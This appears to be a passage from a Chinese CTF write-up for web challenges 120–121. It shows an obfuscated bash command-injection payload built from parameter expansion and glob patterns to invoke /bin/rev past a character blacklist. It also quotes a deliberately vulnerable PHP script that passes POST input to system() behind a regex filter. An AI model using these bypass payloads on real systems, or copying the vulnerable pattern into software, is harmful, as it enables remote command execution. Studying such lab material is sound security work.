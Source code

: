 这里在kali里面试了下不一定匹配到/bin/rev

![web120_rev](./image/web120_rev.png)

改进了下增加匹配概率

```
# payload是这样的
${PWD::${##}}???${PWD::${##}}${PWD:${#IFS}:${##}}?? ????.???

${PWD::${##}}???${PWD::${##}}${PWD:${#IFS}:${##}}?? --> /???/r??
不能准确匹配到/bin/rev的原因也很简单就是匹配参数太少
这里由于PWD（/var/www/html）里有v字母
${PWD:${##}:${##}} --> v
改进后的payload,不过对于这题来说超长了
${PWD::${##}}???${PWD::${##}}${PWD:${#IFS}:${##}}?${PWD:${##}:${##}} ????.???
```

![web120_rev_2](./image/web120_rev_2.png)



## Web121

题目：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>

```


[ERROR]: could not find driver